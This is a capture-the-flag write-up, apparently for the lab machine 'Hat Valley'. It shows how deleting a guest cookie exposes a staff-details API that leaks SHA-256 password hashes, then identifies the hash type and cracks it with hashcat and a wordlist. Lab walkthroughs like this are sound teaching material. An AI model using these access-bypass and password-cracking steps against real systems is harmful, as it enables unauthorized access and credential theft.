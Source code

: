 ```bash
```

- We can go directly to:
	- [[http://hat-valley.htb/api/staff-details]]
- You will see `JsonWebTokenError: jwt malformed`.
- Now if you were paying attention and being an astute researchers you would've noticed the header on each page.
	- `Cookie: token=guest`
- If you go to the `devloper console`, visit the `application` tag and select `Cookies` you can delete this token.
- Refresh the page.
- Now we find some convenient hashes:
```bash
[{"user_id":1,"username":"christine.wool","password":"6529fc6e43f9061ff4eaa806b087b13747fbe8ae0abfd396a5c4cb97c5941649","fullname":"Christine Wool","role":"Founder, CEO","phone":"0415202922"},{"user_id":2,"username":"christopher.jones","password":"e59ae67897757d1a138a46c1f501ce94321e96aa7ec4445e0e97e94f2ec6c8e1","fullname":"Christopher Jones","role":"Salesperson","phone":"0456980001"},{"user_id":3,"username":"jackson.lightheart","password":"b091bc790fe647a0d7e8fb8ed9c4c01e15c77920a42ccd0deaca431a44ea0436","fullname":"Jackson Lightheart","role":"Salesperson","phone":"0419444111"},{"user_id":4,"username":"bean.hill","password":"37513684de081222aaded9b8391d541ae885ce3b55942b9ac6978ad6f6e1811f","fullname":"Bean Hill","role":"System Administrator","phone":"0432339177"}]
```

![image](https://0xc0rvu5.github.io/docs/assets/images/20230121222516.png)

- Let's put together a file with our hashes:
```bash
6529fc6e43f9061ff4eaa806b087b13747fbe8ae0abfd396a5c4cb97c5941649
e59ae67897757d1a138a46c1f501ce94321e96aa7ec4445e0e97e94f2ec6c8e1
b091bc790fe647a0d7e8fb8ed9c4c01e15c77920a42ccd0deaca431a44ea0436
37513684de081222aaded9b8391d541ae885ce3b55942b9ac6978ad6f6e1811f
```

Let's check with `hashid` or `hash-identifier` for the hash type.
```bash
hashid 6529fc6e43f9061ff4eaa806b087b13747fbe8ae0abfd396a5c4cb97c5941649
```
- `hash-identifier` usually has more clear results.
```
hash-identifier
HASH: 6529fc6e43f9061ff4eaa806b087b13747fbe8ae0abfd396a5c4cb97c5941649
```

![image](https://0xc0rvu5.github.io/docs/assets/images/20230121223259.png)

- On our host machine, in order to utilize the power of the GPU we will determine the proper `hashcat` `Hash-Mode` to use.
```bash
hashcat --help | grep -e sha -e 256 -e Raw
```

![image](https://0xc0rvu5.github.io/docs/assets/images/20230121223520.png)

- `1400` will be our first go-to and will be successful with a single hash that we discover!
```bash
hashcat -a 0 -m 1400 hashes.txt rockyou.txt
```
